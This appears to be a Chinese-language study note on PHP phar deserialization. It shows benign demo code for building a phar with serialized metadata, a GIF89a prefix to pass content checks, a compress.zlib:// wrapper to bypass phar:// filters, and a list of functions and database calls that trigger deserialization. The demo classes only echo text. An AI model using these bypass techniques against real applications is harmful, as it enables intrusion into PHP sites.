

### 参考

[php反序列化拓展攻击详解--phar - 先知社区](https://xz.aliyun.com/t/6699?time__1311=n4%2BxnD0Dg7KQq0KGQ3DsA3xCwLq0xRDAK4NoEQx#toc-4)

### Phar反序列化介绍

#### phar介绍

* phar类似java下的jar

### phar文件

phar文件由四部分构成：

* phar文件标识:`xxx<?php xxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件

```php
<?php
Phar::mapPhar();
include 'phar://phar.phar/index.php';
__HALT_COMPILER();
?>
```

*  元数据:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以**序列化的形式**存储用户自定义的meta-data，这是上述攻击手法最核心的地方。
* 文件内容
* 签名：


#### phar文件生成

* 需要设置php.ini中的phar.readonly选项设置为Off

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```


* 值得注意的的是，刚刚提到phar文件的标识的前面可以为任意内容，如果目标存在对文件内容的检查，可以通过在这个部分写内容来饶过一些检测

```php
<?php
    class TestObject {
    }
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $o->data='hello L1n!';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

#### 读取phar文件和phar反序列化

* 一些函数支持phar伪协议读取phar文件，在这个过程中就会发生反序列化，函数如下



```txt
readgzfile
gzfile
mime_content_type
imagecreatefrompng
imagecreatefromgif
imagecreatefromjpeg
imagecreatefromwbmp
imagecreatefromxbm
imagecreatefromgd
imagecreatefromgd2
imageloadfont
simplexml_load_file
sha1_file
md5_file
getimagesize
highlight_file
show_source
php_strip_whitespace
rmdir
mkdir
get_meta_tags
opendir
dir
scandir
filesize
filetype
lstat
touch
xmlwrite_open_uri
```

接着之前的生成代码

```php
<?php 
    class TestObject {
        public function __destruct() {
            echo $this->data;
            echo 'Destruct called';

        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

* 如果存在限制，可控的文件名头部不允许出现`phar://`，可以通过`'compress.zlib://phar://phar.phar/test.txt`来绕过

#### 导致phar反序列化触发的其他地方

* **开启phar写时**，postgres相关

```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "test", "root", "root"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

* mysql读取本地文件

```php
<?php
class TestObject {
    function __destruct()
    {
        echo $this->data;
        echo 'Destruct called';
    }
    }
    // $filename = 'compress.zlib://phar://phar.phar/test.txt';
    // file_get_contents($filename); 
    $m = mysqli_init();
    mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
    $s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'test', 3306);
    $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://phar.phar/test.txt\' INTO TABLE users  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;'); 
?>
```


### 复现